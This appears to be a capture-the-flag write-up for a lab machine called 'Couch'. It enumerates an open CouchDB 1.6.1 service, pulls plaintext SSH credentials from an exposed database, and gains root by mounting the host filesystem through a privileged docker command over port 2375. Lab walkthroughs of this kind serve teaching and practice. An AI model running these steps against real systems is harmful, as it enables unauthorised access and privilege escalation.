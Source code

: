 # Couch

### Couch
Nmap scan shows ports 22 and 5984 open. 

    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 34:9d:39:09:34:30:4b:3d:a7:1e:df:eb:a3:b0:e5:aa (RSA)
    |   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
    |_  256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (ED25519)
    5984/tcp open  http    CouchDB httpd 1.6.1 (Erlang OTP/18)
    |_http-title: Site doesn't have a title (text/plain; charset=utf-8).
    |_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

![image](https://github.com/user-attachments/assets/b120150b-e51c-4bb0-975e-4c7a47d99f9a)<br />
I enumerate directories using ffuf: `ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -u http://10.10.179.90:5984/FUZZ -e .txt,.html,.php -mc 200,301,302 -s` and I find: <br />
![image](https://github.com/user-attachments/assets/fa6ac851-2d8f-465a-aac7-c7803fbd4754)<br />
Searching online for a bit, I found [this website](https://www.ionos.com/digitalguide/hosting/technical-matters/work-with-couchdb-from-the-command-line/) that explains very well how to work with couchDB from the terminal. <br />
I run `curl -X GET http://10.10.179.90:5984/_all_dbs` and get the list of databases: <br />
![image](https://github.com/user-attachments/assets/3c01e92d-da0b-4de1-9463-b467e6e698ce)<br />
I move on with my research and find in [this guide](https://guide.couchdb.org/draft/tour.html) that the administration tool is inside `/_utils`: <br />
![image](https://github.com/user-attachments/assets/738be0da-15b3-4735-8c9f-ec94586e9de0)<br />
That's definitely easier now. Now, inside `/secret/a1320dd69fb4570d0a3d26df4e000be7 ` there is a set of credentials for the user `atena`. I use the password to log into atena's ssh account and get the user flag.<br />
Privesc to root is pretty straightforward: <br />
![image](https://github.com/user-attachments/assets/3aec8823-9fe7-4da1-ac61-a90aced29bb0)<br />
Basically inside atena bash history file there's this command: `docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine`. This means that atena can run the command `docker`, which is usually only reserved for privileged users like root, since it can be easily used to become root. <br />
This command mounts the entire file system `/` inside `/mnt`. It is also run with the flag `--privileged`, meaning that I'll be root inside that container. The flag is located at `/mnt/root/root.txt`.





